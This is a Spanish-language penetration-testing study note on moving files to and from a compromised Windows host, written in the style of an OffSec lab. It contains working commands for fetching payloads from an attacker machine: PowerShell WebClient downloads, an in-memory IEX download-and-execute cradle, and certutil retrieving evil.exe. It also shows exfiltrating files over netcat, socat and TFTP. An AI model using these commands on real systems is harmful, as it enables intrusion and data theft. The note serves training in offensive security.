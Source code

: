 # File Transfers

Propietario: Adrian Gisbert Cabello

### 1. Consideraciones y Preparaciones

### Dangers of Transferring Attack Tools

- **Riesgos**:
    - Abuso por parte de terceros malintencionados.
    - Detección por software antivirus.
- **Recomendación**: Usar herramientas nativas cuando sea posible y documentar las subidas de archivos.

### Instalación de Pure-FTPd

```bash
sudo apt update && sudo apt install pure-ftpd
```

- **Crear un nuevo usuario para Pure-FTPd**:
    
    ```bash
    sudo pure-pw useradd offsec -u ftpuser -d /home/ftpusers/offsec
    sudo pure-pw mkdb
    ```
    

### Uso de FTP

- **Conexión FTP básica**:
    
    ```bash
    ftp 10.11.0.4
    ```
    

### 2. Métodos de Transferencia de Archivos en Windows

### Non-Interactive FTP Download

- **Comando FTP en Windows**:
    
    ```bash
    ftp -s:script.txt
    ```
    
    - `script.txt` contiene comandos FTP como `open`, `user`, `get`, etc.

### Uso de PowerShell para Descarga de Archivos

- **Descargar un archivo**:
    
    ```powershell
    powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/file.exe','C:\path\to\save\file.exe')"
    ```
    

### Transferencias con Powercat

- **Enviar un archivo con Powercat**:
    
    ```powershell
    powercat -c 10.11.0.4 -p 443 -i C:\path\to\file.exe
    ```
    

### Transferencias con Netcat

- **Enviar un archivo desde Kali a Windows**:
    - **En Windows** (escuchando):
        
        ```bash
        nc -nlvp 4444 > incoming.exe
        ```
        
    - **En Kali** (enviando):
        
        ```bash
        nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
        ```
        

### Uso de Socat para Transferencias

- **Enviar un archivo con Socat**:
    - **En Kali**:
        
        ```bash
        socat TCP4-LISTEN:443,fork file:secret_passwords.txt
        ```
        
    - **En Windows**:
        
        ```bash
        socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
        ```
        

### Descarga y Ejecución de Script con PowerShell

- **Ejecutar un script remoto directamente desde memoria**:
    
    ```powershell
    powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/script.ps1')
    ```
    

### Uso de TFTP

- **Configuración de TFTP en Kali**:
    
    ```bash
    sudo apt update && sudo apt install atftp
    sudo mkdir /tftp
    sudo chown nobody: /tftp
    sudo atftpd --daemon --port 69 /tftp
    ```
    
- **Subir un archivo desde Windows**:
    
    ```bash
    tftp -i 10.11.0.4 put important.docx
    ```
    

### Uso de Certutil para Descargas

- **Descargar un archivo con certutil**:
    
    ```bash
    certutil.exe -urlcache -f http://10.11.0.4/evil.exe C:\path\to\save\evil.exe
    ```
    

### Ejemplos Prácticos

### 1. Transferencia de Archivos con PowerShell

- **Descargar wget.exe en Windows**:
    
    ```powershell
    powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
    ```
    

### 2. Transferencia de Archivos con Netcat

- **En Windows (recibiendo el archivo)**:
    
    ```bash
    nc -nlvp 4444 > incoming.exe
    ```
    
- **En Kali (enviando el archivo)**:
    
    ```bash
    nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
    ```
    

### 3. Transferencia de Archivos con Socat

- **En Kali**:
    
    ```bash
    socat TCP4-LISTEN:443,fork file:secret_passwords.txt
    ```
    
- **En Windows**:
    
    ```bash
    socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
    ```